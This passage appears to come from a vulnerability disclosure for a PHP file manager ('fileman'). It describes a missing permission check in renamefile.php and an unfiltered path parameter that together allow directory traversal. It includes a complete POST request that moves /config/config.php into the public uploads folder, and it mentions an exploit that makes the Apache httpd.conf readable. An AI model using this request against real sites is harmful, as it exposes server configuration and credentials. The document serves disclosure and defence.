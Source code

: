 Through the exploit, successfully copy the directory conf of the apache configuration file to /fileman/conf. You can obtain the content of the file by visiting ```http://domain.com/fileman/conf/httpd.conf```: 
![8.png](./img/8.png)


**[3]**

In \fileman\php\renamefile.php, there is no permission verification operation for the user.

![9.png](./img/9.png)

Line 34 determines whether the newly named file meets the criteria (forbidding renaming the file to. PHP file), and fails to filter the value of $path, resulting in file renaming across directories.

Modify /config/config.php to /fileman/Uploads/test.html by requesting:
```
POST /fileman/php/renamefile.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 91
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

f=%2Ffileman%2FUploads%2F..%2F..%2Fconfig%2Fconfig.php&n=..%2Ffileman%2FUploads%2Ftest.html
```
